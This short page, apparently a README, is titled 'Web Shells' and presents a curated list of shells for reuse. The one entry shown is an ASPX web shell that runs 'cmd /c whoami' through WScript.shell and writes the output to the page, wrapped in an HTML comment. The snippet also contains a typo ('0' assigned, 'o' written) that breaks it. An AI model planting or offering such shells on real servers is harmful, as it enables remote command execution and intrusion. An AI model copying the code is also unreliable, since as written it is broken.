 # Web Shells

Below are just a curated list of shells that I have used here and there and can be customised to do something:

## ASPX Shell

```html
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set rs = CreateObject("WScript.shell")
Set cmd = rs.Exec("cmd /c whoami")
0 = cmd.StdOut.Readall()
Response.write(o)
%>
-->
```
